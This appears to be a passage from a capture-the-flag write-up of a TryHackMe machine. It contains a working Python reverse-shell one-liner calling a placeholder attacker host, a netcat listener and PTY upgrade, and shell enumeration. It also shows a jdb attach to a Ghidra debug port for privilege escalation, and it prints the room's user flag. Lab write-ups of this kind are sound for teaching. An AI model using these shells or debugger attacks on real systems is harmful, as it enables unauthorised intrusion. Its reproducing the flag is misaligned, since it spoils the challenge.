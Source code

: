 ```bash

$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("AttackIP",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

<br>

```bash
:~/Ghidra# nc -lvnp 1337
www-data@ubuntu:/var/www/html/limesurvey$ python3 -c "import pty; pty.spawn('/bin/bash')" || python -c "import pty; pty.spawn('/bin/bash')" || /usr/bin/script -qc /bin/bash /dev/null
</bash')" || /usr/bin/script -qc /bin/bash /dev/null                         
www-data@ubuntu:/var/www/html/limesurvey$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
...
www-data@ubuntu:/home/veronica$ netstat -ntpl
...
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
...
tcp        0      0 127.0.0.1:18001         0.0.0.0:*               LISTEN      -               
...
```

<br><br>

> 1.3. <em>Compromise the machine and locate user.txt</em><br><a id='1.3'></a>
>> <strong><code>THM{EB0C770CCEE1FD73204F954493B1B6C5E7155B177812AAB47EFB67D34B37EBD3}</code></strong><br>
<p></p>

<br>

```bash
www-data@ubuntu:/home/veronica$ jdb -attach localhost:18001
jdb -attach localhost:18001
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> classpath
classpath
base directory: /home/veronica
classpath: [/home/veronica/ghidra_9.0/support/../Ghidra/Framework/Utility/lib/Utility.jar]
> classes
classes
** classes list **
...
util.HistoryList
util.demangler.GenericDemangledDataType
util.demangler.GenericDemangledType
utilities.util.FileUtilities
utilities.util.FileUtilities$$Lambda$88.1642030774
utilities.util.FileUtilities$$Lambda$89.411506101
utilities.util.reflection.ReflectionUtilities
utilities.util.reflection.ReflectionUtilities$$Lambda$259.162663528
utility.applicaiton.ApplicationLayout
utility.applicaiton.ApplicationSettings
utility.applicaiton.ApplicationUtilities
utility.module.ModuleManifestFile
utility.module.ModuleUtilities
utility.module.ModuleUtilities$$Lambda$87.2128029086
> stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
Set breakpoint org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
> 
```
